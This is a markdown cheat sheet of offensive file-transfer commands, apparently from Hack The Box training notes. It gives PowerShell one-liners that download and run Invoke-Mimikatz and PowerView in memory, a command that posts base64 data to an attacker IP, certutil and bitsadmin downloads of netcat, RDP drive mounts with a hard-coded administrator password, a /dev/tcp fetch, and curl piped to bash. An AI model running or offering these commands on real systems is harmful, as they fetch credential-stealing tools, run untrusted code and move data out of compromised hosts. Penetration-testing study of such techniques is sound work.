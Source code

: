 # Windows & Powershell
| No | Command | Description |
|----------|---------|-------------|
|1| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
|2| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell |
|3| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
|4| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
|5| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
|6| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
|7.1|`$Session = New-PSSession -ComputerName DATABASE01`|Create a PowerShell Remoting Session to DATABASE01|
|7.2|`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`|Copy samplefile.txt from our Localhost to the DATABASE01 Session|
|7.2|`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`|Copy DATABASE.txt from DATABASE01 Session to our Localhost|
|8|`rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`|Mounting a Linux Folder Using rdesktop|
|9|`xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`|Mounting a Linux Folder Using xfreerdp|
|10|`Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`| MD5 Hashes |
|11|`(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`|File Download|
|12|`(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`|File Download Async|
|13.1|`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`|PowerShell DownloadString - Fileless Method|
|13.2|`(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`|PowerShell DownloadString - Fileless Method|
|14|`Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`| PowerShell Invoke-WebRequest|

<br><br>

# /dev/tcp
| No | Command | Description |
|------|---------|-------------|
|1.1|`exec 3<>/dev/tcp/10.10.10.32/80`| creates a TCP connection over TCP socket; **/dev/tcp** is a bash internal; **3<>** creates a descriptor for reading and writing|
|1.2|`echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`|sends a request to the discriptor created above|
|1.3|`cat <&3`|prints the response|

<br><br>

# CURL
| Command | Description |
|---------|-------------|
|<code>curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh \| bash </code>|Fileless Download with cURL|
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |

